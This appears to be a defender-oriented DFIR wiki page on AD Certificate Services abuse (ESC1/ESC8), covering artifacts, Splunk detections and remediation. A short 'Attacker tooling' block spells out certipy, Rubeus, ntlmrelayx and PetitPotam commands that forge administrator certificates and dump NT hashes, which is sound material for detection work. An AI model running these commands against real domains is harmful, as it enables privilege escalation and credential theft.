

# AD Certificate Services Abuse (ESC1 / ESC8)

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1649 (Steal or Forge Authentication Certificates) · **Tactic:** Credential Access / Privilege Escalation / Persistence · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    Active Directory Certificate Services (ADCS) issues certificates that can be used to **log on with Kerberos (PKINIT)**. If a certificate template or the CA itself is misconfigured, a low-privileged user can obtain a certificate **that says they are a Domain Admin** — then use it to get a TGT and the admin's NT hash. The 2021 "Certified Pre-Owned" research named these misconfigurations **ESC1 – ESC8** (later ESC9 – ESC16). Certificates are also excellent **persistence**: they survive password resets and are valid for a year or more by default.

## How the attack works



| ESC | Misconfiguration (short) | Typical result |
|---|---|---|
| **ESC1** | Template allows **enrollee-supplied subject/SAN** + Client Authentication EKU + low-priv enrol + no manager approval | Cert for any user, incl. Domain Admin |
| ESC2 / ESC3 | Any-purpose EKU / Enrollment Agent templates enrollable by low-priv users | Request certs on behalf of others |
| ESC4 | Low-priv users can **edit** a template | Make it ESC1 |
| ESC6 | CA flag `EDITF_ATTRIBUTESUBJECTALTNAME2` set | Any template becomes ESC1 |
| ESC7 | Low-priv users have CA Manager/Officer rights | Approve own requests |
| **ESC8** | **HTTP web enrollment** without EPA/HTTPS | NTLM relay → cert as the coerced machine |

## Attacker tooling / commands

```text
# Discovery
Certify.exe find /vulnerable
certipy find -u user@corp.local -p '...' -dc-ip 10.0.0.1 -vulnerable

# ESC1 request (recognition only)
certipy req -u user@corp.local -ca CORP-CA -template VulnTemplate -upn administrator@corp.local

# Use the certificate
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1      # TGT + NT hash
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx /getcredentials

# ESC8
ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp --adcs --template DomainController
PetitPotam.py attacker_ip dc01
```

## Affected Windows versions

ADCS misconfigurations exist on **every Enterprise CA from Server 2003 to 2025** — the vulnerable templates are created by administrators, not shipped insecure (except that the **default `User`/`Machine` templates combined with ESC6/ESC8 conditions** are exploitable). Version-relevant changes:

| Change | Effect | Applies to |
|---|---|---|
| **KB5014754** (May 2022, CVE-2022-26923 "Certifried") — strong certificate mapping, new SID extension in certs | Stops certs whose name was spoofed via dNSHostName tricks; **Full Enforcement** became default in 2025 updates, compatibility mode later removed | DCs 2012 R2 → 2025 (patched) |
| EPA available for IIS web enrollment | Blocks ESC8 when **required** and HTTP is disabled | 2012 R2+ with updates; not on by default for the legacy `/certsrv` site |
| Out-of-support CAs (2003/2008/2012) | No strong-mapping fix | Treat as must-migrate |

## Artifacts left behind

| Where | Artifact | What to look for |
|---|---|---|
| CA Security log | **4886** (certificate request received), **4887** (certificate issued) — fields `Requester`, `Attributes`, `Subject` | `Requester` ≠ identity in the **SAN/Subject** (e.g. `CORP\jsmith` requesting a cert with `upn=administrator`) = ESC1. Needs *Audit Certification Services* enabled and CA auditing (`certutil -setreg CA\AuditFilter 127`) |
| CA Security log | **4899/4900** template/security settings changed | ESC4 modification |
| CA database | `certutil -view` — issued requests with `Request.RequesterName` and `SAN` | Retrospective hunting: every cert ever issued is in the DB |
| DC Security log | **4768** with `Pre_Authentication_Type=16` (PKINIT) and `Certificate_Issuer_Name` / `Certificate_Thumbprint` populated | Certificate-based logon. Rare for admins in most orgs — very high signal |
| DC (KB5014754) | System log **39 / 40 / 41** (Kdcsvc) — certificate could not be strongly mapped | Spoofed/weak-mapped certs being used |
| IIS on CA | `C:\inetpub\logs\LogFiles\W3SVC1\*.log` — POST to `/certsrv/certfnsh.asp` from an unexpected IP | ESC8 relay |
| Network | Zeek `http.log` to `/certsrv/`; `ntlm.log` to the CA from a non-browser host | ESC8 |

## Detection

=== "Splunk — ESC1 (requester ≠ subject)"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4887
    | rex field=Attributes "(?i)(san|upn)\s*:\s*(?<san_value>[^\s&]+)"
    | eval req_user=lower(mvindex(split(Requester,"\\"),1))
    | where isnotnull(san_value) AND NOT like(lower(san_value), req_user."%")
    | table _time, host, Requester, san_value, Subject, Template
    ```

    `4887` = Certificate Services approved a request and issued a certificate. `rex` (regular-expression field extraction) pulls the SAN/UPN the requester asked for out of `Attributes`. `split(Requester,"\\")` separates `DOMAIN\user` and `mvindex(...,1)` takes the user. If the certificate's SAN does not start with the requester's own name, someone asked for a certificate for another identity.

=== "Splunk — PKINIT logons"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4768 Pre_Authentication_Type=16
    | stats count, values(Certificate_Issuer_Name) as issuer, values(Client_Address) as src by Account_Name
    | sort - count
    ```

    `Pre_Authentication_Type=16` = PKINIT (logon with a certificate). Baseline which accounts do this (smart-card users, Wi-Fi/VPN machine certs) and alert on privileged accounts outside that list.

=== "Hygiene — find ESC1 templates"

    ```powershell
    certutil -v -dstemplate | Select-String "msPKI-Certificate-Name-Flag|pKIExtendedKeyUsage|cn ="
    # or: certipy find ... -vulnerable -stdout   (run it yourself before the attacker does)
    ```

## Response

Identify every certificate issued via the vulnerable path (CA database, 4887) and **revoke** them — then publish a new CRL; resetting the user's password does *not* invalidate a certificate. If a DC certificate or the CA itself was compromised (CA private key theft = "Golden Certificate"), the CA must be rebuilt and its certificate removed from `NTAuthCertificates`.

### Remediation by Windows version

| Control | What it stops | Available on |
|---|---|---|
| Remove **Supply in the request** (`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`) from templates with client-auth EKUs, or require **manager approval** | ESC1 | All Enterprise CA versions |
| Restrict enrolment and template **write** permissions to admins | ESC1 / ESC4 | All |
| Clear `EDITF_ATTRIBUTESUBJECTALTNAME2` (`certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2`) | ESC6 | All |
| Disable HTTP web enrollment, or force **HTTPS + EPA Required** | ESC8 | 2012 R2+ (EPA); remove the role on older CAs |
| Install **KB5014754** and reach **Full Enforcement** strong mapping | Certifried and weak mappings | Patched DCs 2012 R2 → 2025 |
| Enable CA auditing (`AuditFilter 127`) + *Audit Certification Services* | Generates 4886/4887/4899/4900 | All Enterprise CAs (2008+ for advanced audit subcategory) |
| Treat CA servers as **Tier 0** | CA key theft (Golden Certificate) | Process control |

## References

- [MITRE ATT&CK — T1649](https://attack.mitre.org/techniques/T1649/)
- [SpecterOps — Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [Microsoft — KB5014754 certificate-based authentication changes](https://support.microsoft.com/help/5014754)
- Pages: [LLMNR & NTLM relay](llmnr-ntlm-relay.md) · [DCSync](dcsync.md) · [Golden & Silver tickets](golden-silver-tickets.md)
